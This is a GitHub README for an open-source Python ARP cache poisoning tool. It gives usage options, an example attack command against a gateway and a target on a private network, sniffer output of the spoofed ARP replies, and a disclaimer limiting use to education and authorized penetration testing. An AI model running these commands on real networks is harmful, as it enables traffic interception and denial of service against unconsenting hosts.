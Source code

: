 # Python 3 ARP Spoofing Tool

[![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)](https://github.com/EONRaider/Packet-Sniffer/)
[![Open Source? Yes!](https://img.shields.io/badge/Open%20Source%3F-Yes!-green?style=for-the-badge&logo=appveyor)](https://github.com/EONRaider/Packet-Sniffer/)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/reddit/user-karma/combined/eonraider?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Keybase](https://img.shields.io/badge/keybase-eonraider-blue?style=flat-square&logo=keybase)](https://keybase.io/eonraider)
[![Twitter](https://img.shields.io/twitter/follow/eon_raider?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages a low-level 
assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.
```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] (--attackermac MAC | --disassociate) --gatemac MAC --targetmac MAC 
            --gateip IP --targetip IP interface

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  interface          Interface on the attacker machine to send packets from.

optional arguments:
  -h, --help         show this help message and exit
  --attackermac MAC  MAC address of the Network Interface Controller (NIC) used by 
                     the attacker.
  --disassociate     Execute a disassociation attack in which a randomized MAC 
                     address is set for the attacker machine, effectively making 
                     the target host send packets to a non-existent gateway.
  --gatemac MAC      MAC address of the NIC associated to the gateway.
  --targetmac MAC    MAC address of the NIC associated to the target.
  --gateip IP        IP address currently assigned to the gateway.
  --targetip IP      IP address currently assigned to the target.
  --interval TIME    Time in between each transmission of spoofed ARP packets 
                     (defaults to 0.5 seconds).
```


## Sample Output

- Example command to initiate an attack against a given target machine and gateway:
```
user@host:~$ sudo python3 arpspoof.py eth0 --attackermac 08:00:27:1f:6a:67 \
--gatemac 52:54:00:45:6a:69 --targetmac 08:00:27:83:dc:02 \
--gateip 10.0.1.1 --targetip 10.0.1.6

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```
- Example traffic displayed by [Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack takes place:
```
[>] Packet #1 at 15:15:03:
    [+] MAC ......08:00:27:1f:6a:67 -> 52:54:00:45:6a:69
    [+] ARP ...............10.0.1.6 -> Is at 08:00:27:1f:6a:67
[>] Packet #2 at 15:15:03:
    [+] MAC ......08:00:27:1f:6a:67 -> 08:00:27:83:dc:02
    [+] ARP ...............10.0.1.1 -> Is at 08:00:27:1f:6a:67
```

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality, 
for engaging targets without prior mutual consent is illegal. **It is 
the end-user's responsibility to obey all applicable local, state 
and federal laws.**

Developers assume **no liability** and are not 
responsible for misuses or damages caused by any code contained 
in this repository in any event that, accidentally or otherwise, it comes to 
be utilized by a threat agent or unauthorized entity as a means to compromise the security, privacy, 
confidentiality, integrity and/or availability of systems and their associated 
 resources by leveraging the exploitation of known or unknown vulnerabilities present 
in said systems, including, but not limited to, the implementation of security controls, 
human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those circumstances 
directly related to **educational environments** or **authorized penetration testing 
engagements** whose declared purpose is that of finding and mitigating vulnerabilities 
in systems, limiting their exposure to compromises and exploits employed by malicious 
agents as defined in their respective threat models.
